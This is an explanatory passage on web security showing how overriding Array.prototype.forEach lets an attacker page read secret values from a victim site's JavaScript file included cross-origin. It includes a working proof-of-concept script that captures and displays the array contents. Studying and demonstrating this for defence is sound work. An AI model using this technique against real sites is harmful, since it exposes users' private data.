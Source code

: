 In JavaScript, the `this` keyword is dynamically scoped. This means if a function is called upon an object, `this` will point to this object even though the called function might not belong to the object itself. This behavior can be used to leak data. In the following example from [Sebastian Leike's demonstration page](http://sebastian-lekies.de/leak/), the sensitive data is stored in an Array. An attacker can override `Array.prototype.forEach` with an attacker-controlled function. If some code calls the `forEach` function on an array instance that contains sensitive values, the attacker-controlled function will be invoked with `this` pointing to the object that contains the sensitive data.

Here is an excerpt of a JavaScript file containing sensitive data, `javascript.js`:

```javascript
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

The sensitive data can be leaked with the following JavaScript code:

```javascript
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
